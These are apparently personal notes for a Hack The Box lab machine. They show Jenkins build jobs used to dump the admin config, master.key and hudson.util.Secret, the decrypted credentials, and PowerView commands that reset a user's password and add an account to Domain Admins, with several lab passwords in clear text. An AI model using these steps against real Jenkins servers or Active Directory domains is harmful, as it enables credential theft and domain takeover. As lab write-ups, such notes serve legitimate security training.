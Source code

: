 ![[Pasted image 20240604133944.png]]

initial scan

![[Pasted image 20240604134516.png]]
user ideas@object.htb


![[Pasted image 20240604134707.png]]

jenkins login lets you register an account

![[Pasted image 20240604134805.png]]

sad, no script engine for us, but we can register builds

![[Pasted image 20240604143952.png]]
make one to list the directory we're in, config looks juicy

it was actually in C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035

![[Pasted image 20240604145818.png]]
so we have an admin hash and

![[Pasted image 20240604145918.png]]
this took some tinkering, but here's my dumped secrets

```
14:22:03 Started by remote host 10.10.14.4
14:22:03 Running as SYSTEM
14:22:03 Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd
14:22:03 [cmd] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins15204901719658108121.bat
14:22:03 
14:22:03 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
14:22:03 <?xml version='1.1' encoding='UTF-8'?>
14:22:03 <user>
14:22:03   <version>10</version>
14:22:03   <id>admin</id>
14:22:03   <fullName>admin</fullName>
14:22:03   <properties>
14:22:03     <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
14:22:03       <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
14:22:03         <entry>
14:22:03           <com.cloudbees.plugins.credentials.domains.Domain>
14:22:03             <specifications/>
14:22:03           </com.cloudbees.plugins.credentials.domains.Domain>
14:22:03           <java.util.concurrent.CopyOnWriteArrayList>
14:22:03             <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
14:22:03               <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
14:22:03               <description></description>
14:22:03               <username>oliver</username>
14:22:03               <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
14:22:03               <usernameSecret>false</usernameSecret>
14:22:03             </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
14:22:03           </java.util.concurrent.CopyOnWriteArrayList>
14:22:03         </entry>
14:22:03       </domainCredentialsMap>
14:22:03     </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
14:22:03     <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
14:22:03       <triggers/>
14:22:03     </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
14:22:03     <hudson.model.MyViewsProperty>
14:22:03       <views>
14:22:03         <hudson.model.AllView>
14:22:03           <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
14:22:03           <name>all</name>
14:22:03           <filterExecutors>false</filterExecutors>
14:22:03           <filterQueue>false</filterQueue>
14:22:03           <properties class="hudson.model.View$PropertyList"/>
14:22:03         </hudson.model.AllView>
14:22:03       </views>
14:22:03     </hudson.model.MyViewsProperty>
14:22:03     <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
14:22:03       <providerId>default</providerId>
14:22:03     </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
14:22:03     <hudson.model.PaneStatusProperties>
14:22:03       <collapsed/>
14:22:03     </hudson.model.PaneStatusProperties>
14:22:03     <jenkins.security.seed.UserSeedProperty>
14:22:03       <seed>ea75b5bd80e4763e</seed>
14:22:03     </jenkins.security.seed.UserSeedProperty>
14:22:03     <hudson.search.UserSearchProperty>
14:22:03       <insensitiveSearch>true</insensitiveSearch>
14:22:03     </hudson.search.UserSearchProperty>
14:22:03     <hudson.model.TimeZoneProperty/>
14:22:03     <hudson.security.HudsonPrivateSecurityRealm_-Details>
14:22:03       <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
14:22:03     </hudson.security.HudsonPrivateSecurityRealm_-Details>
14:22:03     <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
14:22:03       <emailAddress>admin@object.local</emailAddress>
14:22:03     </hudson.tasks.Mailer_-UserProperty>
14:22:03     <jenkins.security.ApiTokenProperty>
14:22:03       <tokenStore>
14:22:03         <tokenList/>
14:22:03       </tokenStore>
14:22:03     </jenkins.security.ApiTokenProperty>
14:22:03     <jenkins.security.LastGrantedAuthoritiesProperty>
14:22:03       <roles>
14:22:03         <string>authenticated</string>
14:22:03       </roles>
14:22:03       <timestamp>1634793332195</timestamp>
14:22:03     </jenkins.security.LastGrantedAuthoritiesProperty>
14:22:03   </properties>
14:22:03 </user>
14:22:03 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>exit 0 
14:22:03 [cmd] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins9665734559229338931.bat
14:22:03 
14:22:03 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
14:22:03 f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
14:22:03 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>exit 0 
14:22:03 [cmd] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins6543154307961785323.bat
14:22:03 
14:22:03 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte))  
14:22:04 gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
14:22:04 
14:22:04 C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\cmd>exit 0 
14:22:04 Finished: SUCCESS
```

Encrypted password: {AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}
Master.key: f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19

base64 encoded hudson.util.secret: gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=

![[Pasted image 20240604152900.png]]![[Pasted image 20240604152910.png]]

![[Pasted image 20240604153534.png]]
well, that was quite involved

but now we have 


oliver:c1cdfun_d2434

![[Pasted image 20240604154017.png]]
and I can even psremote <3

Okay then lets run bloodhound

!!! If you're using bloodhound (not CE) then sharphound must be pre- v2.0

![[Pasted image 20240605093946.png]]

Okay, looks like a pretty standard killchain. Let's change smith's password and log in.
![[Pasted image 20240605094106.png]]
Let's use powerview to set smiths password. Here's how I did it.

![[Pasted image 20240605094719.png]]

Awesome, now I'm smith!

![[Pasted image 20240605094803.png]]

Using genericwrite, we can steal maria's SPN Ticket

![[Pasted image 20240605103153.png]]
So this doesn't actually work and the hash isn't crackable, you actually have to read an xml file from maria's desktop
![[Pasted image 20240605105740.png]]
maria:W3llcr4ft3d_4cls works

Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria
net group "Domain Admins" maria /add
![[Pasted image 20240606143200.png]]